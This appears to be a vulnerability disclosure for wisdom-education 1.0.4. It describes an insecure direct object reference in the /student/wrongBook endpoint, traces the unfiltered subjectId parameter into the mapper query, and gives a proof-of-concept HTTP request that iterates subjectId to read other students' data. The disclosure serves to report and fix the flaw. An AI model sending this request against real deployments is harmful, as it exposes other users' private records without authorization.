 # Vulnerability Introduction

The /student/wrongBook interface of wisdom-education 1.0.4 version has a horizontal privilege escalation vulnerability. An attacker can view others' information by modifying the subjectId parameter.

# Vulnerability Analysis

Vulnerable class file： src/main/java/com/education/api/controller/student/WrongBookController.java

![image-20250928023053271](https://github.com/xkalami-Tta0/picx-images-hosting/raw/master/wisdom-education/image-20250928023053271.7lkd6tax4z.webp)

Call the `studentWrongBookService.selectPageList` method to monitor the underlying implementation

Vulnerable class file：src/main/resources/mapper/education/StudentWrongBookMapper.xml

![image-20250928023243746](https://github.com/xkalami-Tta0/picx-images-hosting/raw/master/wisdom-education/image-20250928023243746.7pny1qgmb.webp)

The underlying query mainly relies on wrongBookQuery.subjectId, which is passed through the wrongBookQuery model without any filtering, resulting in unauthorized access to other people's information.

![image-20250928023436493](https://github.com/xkalami-Tta0/picx-images-hosting/raw/master/wisdom-education/image-20250928023436493.96a46a8ihj.webp)

## Vulnerability reproduction

poc

```
GET /student/wrongBook?pageNumber=1&pageSize=5&questionType=&subjectId=Traverse points HTTP/1.1
Host: 
Platform: educationStudent
Accept: application/json, text/plain, */*
Authorization: [your token]
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
```

![image-20250928023535975](https://github.com/xkalami-Tta0/picx-images-hosting/raw/master/wisdom-education/image-20250928023535975.175rb7tk8z.webp)

